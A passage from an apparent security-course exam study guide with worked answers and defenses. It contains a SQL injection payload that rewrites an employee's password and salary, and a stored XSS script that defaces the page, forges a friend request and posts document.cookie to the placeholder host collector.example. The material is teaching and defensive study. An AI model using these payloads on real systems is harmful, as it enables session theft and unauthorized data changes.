`PROFILE_UPDATE_ENDPOINT` and `HOMEPAGE_FIELD` must be replaced by NS’s actual authenticated profile-edit interface; the prompt does not name them. HTML entity decoding gives the submitted field its literal `` markup. A’s browser attaches A’s cookie to that update. With no CSRF checks, the server stores it; with no XSS/output-encoding defense, later profile viewers receive active content. Each logged-in viewer’s browser sends its own friend-add request to Trudy.


This is a CSRF initial profile change followed by persistent HTML/script injection. If the stored content also copies itself into every viewer’s profile, it becomes a self-propagating worm; replication is an optional extension, not needed to meet the stated “every visitor adds Trudy” requirement.

Defenses: CSRF tokens on profile changes; no state-changing GETs; contextual output encoding/sanitization; CSP and appropriate cookie restrictions. The example assumes the legacy vulnerable behavior specified in the paper, not every modern browser’s default SameSite configuration.

<a id="a136"></a>
### A136 · 2018–19 · Q11(a)

**UPDATE injection to change password and salary · 5 marks**

Original: [past-paper PDF p. 29](../../CSE405-Security_Merged.pdf#page=29). Sitting date: 24 October 2019.

**Topics:** SQL injection and prepared statements.

> **Question summary:** Use the displayed employee-password-change form and PHP code to set employee EID100’s password to you_are_hacked and salary to 10$, without knowing the old password.

**Exam tip.** A payload consisting only of `' OR 1=1` in the old-password field may bypass a check but does not itself add the required salary assignment. Show both requested effects in the resulting SQL.

The original PHP interpolates three fields into:

```sql
UPDATE employee SET password='NEW'
WHERE eid='EID' AND password='OLD'
```

Use these form values:

```text
EID:          EID100
Old Password: anything
New Password: you_are_hacked', salary=10 WHERE eid='EID100' -- 
```

The space after `--` is intentional. The resulting single statement is:

```sql
UPDATE employee
SET password='you_are_hacked', salary=10
WHERE eid='EID100' -- '
WHERE eid='EID100' AND password='anything'
```

The injected comma adds a second assignment, the injected WHERE targets EID100, and the comment removes the intended old-password predicate. The result sets the password to the requested string and salary to 10 (the question’s dollar amount). It assumes the shown MySQL/PHP string-interpolation behavior and that the database account has those update permissions.

<a id="a137"></a>
### A137 · 2018–19 · Q11(b)

**Rewrite vulnerable PHP using prepared statements · 10 marks**

Original: [past-paper PDF p. 30](../../CSE405-Security_Merged.pdf#page=30). Sitting date: 24 October 2019.

**Topics:** SQL injection and prepared statements.

> **Question summary:** Change changepasswd.php to use a prepared statement so the SQL injection in Q11(a) is prevented.

**Exam tip.** Calling prepare on an already interpolated SQL string does not repair injection. The SQL structure must be fixed before untrusted values enter.

A direct prepared-statement repair of the paper’s schema is:

```php
<?php
$eid = $_POST['EID'];
$oldpwd = $_POST['OldPassword'];
$newpwd = $_POST['NewPassword'];

// $conn is an existing mysqli connection.
$stmt = $conn->prepare(
    'UPDATE employee SET password = ? WHERE eid = ? AND password = ?'
);
$stmt->bind_param('sss', $newpwd, $eid, $oldpwd);
$stmt->execute();
$stmt->close();
?>
```

Bind values **after** preparing the fixed SQL. Question marks are placeholders, not quoted string fragments. The attempted `', salary=10 ...` is now stored/compared as data inside one value; it cannot add a column assignment or rewrite WHERE. PHP’s bind/execute interface is documented in [the mysqli prepared-statement manual](https://www.php.net/manual/en/mysqli.quickstart.prepared-statements.php).

**Practical password-storage correction.** The snippet preserves the exam’s plaintext-password model solely to show the SQL-boundary repair. A proper implementation retrieves the authenticated employee’s stored password hash, verifies the submitted old password with `password_verify`, computes the new hash with `password_hash`, then performs `UPDATE employee SET password_hash=? WHERE eid=?` using bound values. Keep authenticated identity server-side, require CSRF protection and revoke affected sessions according to policy. Salary changes should use a separate authorized workflow.

<a id="a138"></a>
### A138 · 2018–19 · Q12(a)

**Stored XSS in a guest book; malicious page actions · 15 marks**

Original: [past-paper PDF p. 30](../../CSE405-Security_Merged.pdf#page=30). Sitting date: 24 October 2019.

**Topics:** Stored/reflected XSS and injected scripts.

> **Question summary:** As Sammy (id=40), write a script in the guest-book Message field to demonstrate XSS damage. The first paragraph has id p1 and the friend-add action for user id 100 is http://vulnerable.com/action/friend/add?id=100.

**Exam tip.** Identify the victim as each visitor, not the attacker who submitted the entry, and use Sammy’s id rather than copying the endpoint’s example id unchanged.

This is a **stored XSS** exercise: the guest-book Message is saved and later inserted into HTML without appropriate escaping. Each viewer runs the injected script as vulnerable.com, not as Sammy’s separate origin.

A representative payload for the deliberately vulnerable exam site is:

```html
<script>
// 1. Deface the trusted page.
const p = document.getElementById('p1');
if (p) p.textContent = 'This guest book has an XSS vulnerability.';

// 2. Make the viewer send a friend request to Sammy (id 40).
new Image().src = '/action/friend/add?id=40';

// 3. Demonstrate export of script-readable cookie data.
// collector.example is a placeholder, not a configured service.
fetch('https://collector.example/receive', {
  method: 'POST', mode: 'no-cors', body: document.cookie
});
</script>
```

The supplied friend-add example uses id=100 to explain the endpoint’s format. Change it to **40** to benefit Sammy, whose id the question provides. `p1` is the exact supplied DOM element identifier. The image-generated GET carries the viewer’s applicable cookies under the paper’s vulnerable behavior, making the action occur as that viewer.

The examples demonstrate three distinct consequences: integrity of displayed content, unauthorized authenticated actions, and confidentiality loss for data available to script. An attacker could also read accessible page data, alter forms or distribute a malicious lure. “All damages” cannot mean arbitrary OS file access: XSS remains subject to the browser sandbox and other controls.

**Limits and defenses.** HttpOnly prevents reading that cookie via document.cookie, but does not stop same-origin authenticated actions. CSP may block the inline script or export destination. Contextual escaping/sanitization of guest-book content is the root repair; avoid state-changing GETs, use CSRF protection, and apply CSP/cookie restrictions as additional controls. This payload assumes the vulnerable behavior stipulated by the exam rather than bypassing every modern defense.

## Review checklist

- Protocol answers: label peers, message fields, authenticated identities, replay state and attacker position.
- Probability answers: define the population/conditioning, compute intermediate counts and check units.
- Memory answers: trace actual destination bounds, endianness, frame offsets and input restrictions; distinguish a control transfer from clean continuation.
- Permission answers: distinguish real/effective identity, pathname/object identity and revocation of delegated rights.
- Detection answers: discuss false positives, false negatives, attacker visibility and what the mechanism cannot observe.

## Sources and overlap

Local source page maps and exam-frequency evidence are in [the Sec A analysis](../analysis/FINAL_EXAM_TOPIC_ANALYSIS.md). The [Sec A syllabus](../analysis/SYLLABUS.md) records limitations and source errors. Matching crypto/web questions reuse checked Sec B answer text and vector diagrams; their complete bodies are included here. Six newly developed principle questions also appear in the updated Sec B guide, giving 60 shared questions overall. Sec A’s build reads those original answer sources from the same repository, so rebuild both sections together after editing shared answers.

Primary technical references appear beside the answers that use them; these supplement the supplied course material rather than define a new course syllabus.
